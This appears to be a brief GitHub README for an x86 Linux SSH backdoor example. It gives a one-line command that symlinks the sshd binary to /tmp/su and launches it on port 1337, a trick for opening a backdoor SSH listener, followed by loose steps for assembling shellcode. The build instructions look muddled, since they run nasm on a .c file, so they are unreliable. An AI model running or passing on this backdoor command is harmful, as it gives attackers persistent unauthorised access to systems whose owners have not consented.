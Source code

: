 # sshd-backdoor-example- linux-x86
SSH Backdoor example !


## Compile ASM
strace -e execve,symlink ./a.out 
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=1337;

OR $nasm -f elf shellcode.c and ld -s -o shellcode shellcode.o
